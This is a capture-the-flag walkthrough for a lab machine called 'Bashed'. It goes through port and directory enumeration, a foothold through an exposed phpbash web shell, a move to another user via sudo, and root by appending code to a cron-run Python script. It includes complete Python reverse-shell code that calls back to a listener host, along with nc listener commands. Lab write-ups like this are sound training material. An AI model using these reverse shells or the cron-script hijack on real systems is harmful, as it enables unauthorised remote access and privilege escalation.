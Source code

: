 Target:10.10.10.68

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.68       

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 23:47 PDT
Nmap scan report for 10.10.10.68
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ

uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

checking 10.10.10.68

![index](bashed1.png)

checking single

![single.html](bashed2.png)

checking /dev

![/dev](bashed3.png)

### Findings:Looking for attack vectors

Got shell in /dev


## Foothold:

checking /dev/phpbash

![/dev/phpbash](bashed4.png)

```
www-data@bashed:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

enumerating users
```
www-data@bashed:/var/www/html# cat /etc/passwd | grep sh

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

checking /home/arrexel

![/home/arrexel](bashed5.png)

```
cat user.txt

<redacted>
```


## Lateral Movement:

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL


www-data@bashed:/home/arrexel# sudo -u scriptmanager bash

sudo: no tty present and no askpass program specified
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

establishing a proper shell
```
www-data@bashed:/home/arrexel# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@bashed:/home/arrexel$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

switching user
```
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash

scriptmanager@bashed:/home/arrexel$ id

uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Priv Escalations:


looking for suspicious file/s
```
scriptmanager@bashed:/home/arrexel$ find / -user scriptmanager 2> /dev/null

/scripts
/scripts/test.py
<snip>

scriptmanager@bashed:/home/arrexel$ cd /scripts

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:47 test.txt

scriptmanager@bashed:/scripts$ cat /scripts/test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:54 test.txt
```

The script test.py opens test.txt and write "testing 123!" and there seem to be a cronjob running


opening a nc listener on port 9002
```
$ nc -lnvp 9002
```

prepairing malicous python code
```
echo "import socket,subprocess,os;" >> test.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);" >> test.py
echo "s.connect(("<ip>",9002));" >> test.py
echo "os.dup2(s.fileno(),0);" >> test.py
echo "os.dup2(s.fileno(),1);" >> test.py
echo "os.dup2(s.fileno(),2);" >> test.py
echo "p=subprocess.call(["/bin/sh","-i"]);" >> test.py
```

```
# id

uid=0(root) gid=0(root) groups=0(root
```

```
# cat /root/root.txt

<redacted>
```
